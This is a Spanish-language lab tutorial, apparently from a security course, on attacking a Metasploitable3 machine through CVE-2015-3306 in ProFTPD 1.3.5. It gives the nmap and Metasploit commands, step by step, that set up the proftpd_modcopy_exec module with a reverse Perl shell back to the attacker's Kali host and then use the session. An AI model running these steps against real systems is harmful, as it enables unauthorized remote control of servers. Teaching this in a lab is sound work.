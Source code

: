 # Atacar la máquina Metasploitable3.

## Ejercicio 1: Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Como ya hemos visto, ***nmap*** es la herramienta estrella para descubrir los servicios presente en una víctima que resida en la misma red local que el atacante. 


Procedemos a realizar un nmap de todos los puertos en la víctima (***192.168.20.13***). El parámetro ***-sV*** sondea los puertos abiertos para determinar la versión de cada servicio. Conocer la versión es importante para determinar si existen vulnerabilidades que se puedan implementar. (Nota: Tardará bastante tiempo. Tener paciencia)
```
nmap -sV 192.168.20.13 -p 0-65535
```

El resultado debe ser similar al siguiente. Observar como el rectángulo rojo marca que se ha detectado la aplicación ***ProFTPD 1.3.5***. También comprobar cómo el rectángulo azul indica que hay un servidor web presente en el puerto ***80***.

![ProFTPD 1.3.5](../img/180820221102.png)

Localizamos información sobre vulnerabilidades en ***CVE Details*** y encontramos que existe una de ***nivel 10***: https://www.cvedetails.com/cve/CVE-2015-3306/. Abrir el link y estudiarlo detenidamente.

En la parte inferior de la página puede observar que se dice que ***No hay ningún módulo de Metasploit relacionado con esta entrada CVE***, pero eso no es correcto, como veremos a continuación.

Una búsqueda un poco más detenida demuestra que Metasploit sí que puede explotar la vunerabilidad presente en ***ProFTP 1.3.5***: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

Como puede leerse en la documentación, el módulo ***proftpd_modcopy_exec*** de Metasploit, se aprovecha de la vulnerabilidad presente en la implementación del comando ***SITE CPFR/CPTO*** de ***ProFTPD***. Cualquier cliente (de FTP) no autenticado (No hace falta conocer credenciales) puede aprovecharse para copiar archivos en ***cualquier carpeta*** del sistema de archivos de la víctima. Los comandos de copia se ejecutan con los derechos (identidad) del servicio ProFTP, que por defecto corre bajo los privilegios del usuario ***nobody***. Mediante el uso de ***/proc/self/cmdline*** es posible subir a la víctima un archivo php que implemente una shell inversa, mediante el cual podemos tomar el control de la víctima.


Cargamos la consola de ***Metasploit*** si no estuviera iniciada.
```
msfconsole
```

Cargamos el módulo del exploit.
```
use exploit/unix/ftp/proftpd_modcopy_exec
```

Mostramos las opciones de configuración.
```
show options
```

La salida será la siguiente.
![Opciones del módulo](../img/180820221143.png)

Las configuraciones que debemos proporcionar son:

* *RHOSTS*: Obligatoria. Debemos poner la IP de la victima, que en nuestro escenario será ***192.168.20.13***.
* *RPORT*: Obligatoria. Una vez subido el payload PHP, el ataque se produce por medio de una Request HTTP. De esta forma, para que el ataque funcione, se necesita un servidor web en la víctima. Este hecho ha sido comprobado en el ejercicio anterior. Como puedes comprobar, no es necesario cambiar este valor (***80***), porque es el puerto correcto donde el servidor ***Apache*** está sirviendo peticiones.
* *RPORT_FTP*: Obligatoria. Este ataque necesita la presencia del servidor ***ProFTPD 1.3.5***, que como hemos comprobado anteriormente, está presente y escuchando en el puerto ***21***, por lo que no es necesario cambiar este ajuste.
* *SITEPATH*: Obligatoria. Es la ruta del directorio raíz del servidor web. En ***Apache*** es ***/var/www/html***. La configuración por defecto que puedes ver es ***/var/www***, que no coincide, por lo que debemos cambiarla a ***/var/www/html***. ***/proc/self/cmdline*** copiará en este directorio el payload php.
* *TARGETURI*: Obligatoria. Es la URI a la que se conectará el exploit. En ella se espera encontrar el payload php que será llamado por la Request HTTP.
* *TMPPATH*: El exploit no funciona copiando directamente el payload php a la carpeta ***/var/www/html***, si no que lo copia primero a una carpeta temporal y luego, desde ésta al directorio ***html***. Por lo tanto, la configuración debe tener una carpeta en la que no existan problemas de permisos. La candidata ideal es ***/tmp***, así que no modificamos esta configuración.

Mostramos los ***targets***, que en ***Metasploit*** son los servicios vulnerables.
```
show targets
```

La salida muestra que el único objetivo posible es ***ProFTP*** en su versión ***1.3.5***.

![show targets](../img/180820221222.png)

Ninguna otra versión de esta aplicación presenta la vulnerabilidad, por lo que una simple actualización de la misma cerraría la vulnerabilidad.

Configuramos el módulo para el ataque.
```
set RHOST 192.168.20.13
```
```
set SITEPATH /var/www/html
```

Comprobamos que todas las opciones requeridas (***RHOSTS***, ***RPORT***, ***RPORT_FTP***, ***SITEPATH***, ***TARGETURI*** y ***TMPPATH***) tienen valor.
```
show options
```

Mostramos los ***Payloads*** compatibles con este ataque:
```
show payloads
```

La salida mostrará lo siguiente.

![show payloads](../img/180820221239.png)

Debemos elegir un tipo de payload que pueda ejecutarse en la víctima. En la mayoría de los sistemas Linux se encuentran instalado ***Python*** y ***Perl***. Sería cuestión de ir probando si no se está seguro. En ***Metasplitable3*** están instalados todos.

Seleccionamos el payload
```
set payload payload/cmd/unix/reverse_perl
```

Cuando seleccionamos un payload, aparecen opciones adicionales a las del módulo, que debemos configurar.
```
show options
```

![opciones del payload](../img/180820221245.png)

* *LHOST*: Obligatoria. Siempre es la máquina que ataca, y a la que se conectará la shell inversa cuando el payload se active. En nuestro caso es la máquina ***Kali***, así que debemos poner en ella su IP (***192.168.20.9***)
* *LPORT*: Obligatoria. Es el puerto de escucha que abrirá la máquina ***Kali***, y al que se conectará la shell inversa del payload. Para que los perimetrales no presenten impedimentos, se podría poner en valor ***80*** o, mejor ***443***. Como en el laboratorio no hay este tipo de impedimentos, dejamos el valor propuesto.
```
set LHOST 192.168.20.9
```

Iniciamos el ataque.
```
run
```

Como se puede comprobar tenemos una sesion remota. 

![Sesión remota](../img/180820221305.png)

Podemos escribir comandos y ver el resultado.
```
whoami
```

También podemos mostrar la ayuda para ver las posibilidades que este payload ofrece.
```
help
```

![Comandos disponibles](../img/180820221308.png)

Además de ***bajar*** o ***subir*** archivos, podemos invocar una ***shell*** más potente, basada en ***python***
```
shell
```

Esto será posible si en la víctima se encuentra instalado ***Python***. Pulsamos la tecla ***Enter*** para activar la shell.

![Shell basada en Python](../img/180820221311.png)






https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/






